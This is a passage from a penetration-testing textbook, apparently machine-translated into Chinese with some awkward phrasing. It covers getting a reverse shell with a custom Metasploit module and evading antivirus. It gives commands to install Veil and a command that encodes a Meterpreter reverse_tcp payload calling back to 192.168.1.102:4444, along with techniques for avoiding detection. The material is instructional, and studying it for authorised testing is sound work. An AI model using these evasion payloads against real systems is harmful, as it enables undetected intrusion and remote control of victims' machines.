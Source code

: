2.  然后，按如下方式启动易受攻击的服务器：

![](assets/98107c65-0bc0-49dc-ab3e-c966c6264711.png)

现在继续，开始 Metasploit。导出我们创建的模块，并尝试利用易受攻击的服务器：

![](assets/9f271686-e0b4-46fd-b09e-a2f0f2a3b0c2.png)

正如我们所见，我们开发的漏洞工作完美无瑕，为我们提供了受害者机器的反面外壳，在我们的案例中，它与我们正在使用的机器是同一台机器。

# 对外壳代码进行编码以避免检测

现在，假设我们已经在正在测试的底层服务中发现了一个漏洞。但是，在这种情况下，该机箱已安装防病毒软件。任何好的防病毒软件都会包含已知漏洞的所有特征码，通常几乎所有 Metasploit 漏洞模块的特征码都会出现。因此，我们必须使用一种方法来规避防病毒检测。这意味着我们需要使用某种编码或任何其他方法来传递有效负载，以避免 AV 检测。我们有三种不同的方法可以做到这一点：

1.  最成功的方法是使用您选择的语言（Python/C/C++/Java）开发自定义漏洞。此方法非常有用，因为自定义攻击不会有任何 AV 签名，通常会逃避 AV 保护。或者，我们也可以下载一个公共漏洞，并对其进行大量修改，以更改其生成的签名。我们在 web 开发用例中开发的开发都是从零开始编写的，因此理论上任何 AV 都不应该接受它们。

2.  第二种方法是将有效负载/漏洞注入底层系统的进程内存中。这样做将在内存中执行代码，大多数防病毒软件都不会检测到这一点。
3.  第三种方法是利用编码来防止检测。在本节中，我们将看到如何利用一个非常强大的编码框架（称为 VEIL）来生成可能逃避 AV 检测的有效负载。

# 下载和安装面纱

应该注意的是，Veil 预装了最新版本的 Kali Linux。对于其他版本的 Linux，我们可以使用以下命令安装 Veil：

```
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

成功安装 Veil 后，生成 Veil 编码的有效载荷是一项非常简单的任务。当使用 veil 时，在幕后发生的事情是，它试图使利用代码变得神秘和随机，从而使用于基于签名的检测的 AV 可以从利用的随机性和神秘性中被愚弄。有两种方法可以做到这一点。一种方法是使用 veil 提供的交互式 shell。这可以通过键入命令`veil`，然后在规避模块下选择有效载荷来调用。另一个更简单的选项是在命令行中指定所有选项，如下所示：

```
veil -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.102 --port 4444 -o exploit
```

上一个命令将使用 Veil 的有效载荷编号`41`对 Metasploit 模块`windows/meterpreter/reverse_tcp`进行编码。这将产生以下输出：

![](assets/df1f54a8-9f90-49b6-93f3-619126499a09.png)

前面的屏幕截图显示了将由 Veil 编码的漏洞，该漏洞可以传递给受害者，以查看它是否能够逃避防病毒软件。如果没有，那么我们必须使用交互式版本的 Veil 来调整有效负载参数，以生成更独特的签名。您可以从*进一步阅读*部分中共享的链接中找到更多关于面纱的信息。

# 总结

在本章中，我们学习了如何开发定制的利用 web 和网络服务的方法。我们还讨论了如何从防病毒软件中规避攻击。此外，我们还研究了各种 web 漏洞，如 LFI 和 RFI，并讨论了如何提升这些漏洞以从受害者那里获得反向外壳。重要的是要理解，开发利用漏洞需要很好地理解潜在的漏洞，我们应该始终尝试进行可重用的通用利用漏洞。请随意修改我们讨论过的利用漏洞代码，使其成为通用代码，并在其他应用程序中试用。

在下一章中，我们将走出渗透测试生态系统，进一步了解**安全运营中心**（**SOC**）或网络安全监控生态系统。我们将了解什么是网络威胁情报，以及如何利用它来保护组织免受潜在威胁。我们还将了解网络威胁情报如何通过 SIEM 工具实现自动化，以补充检测能力。
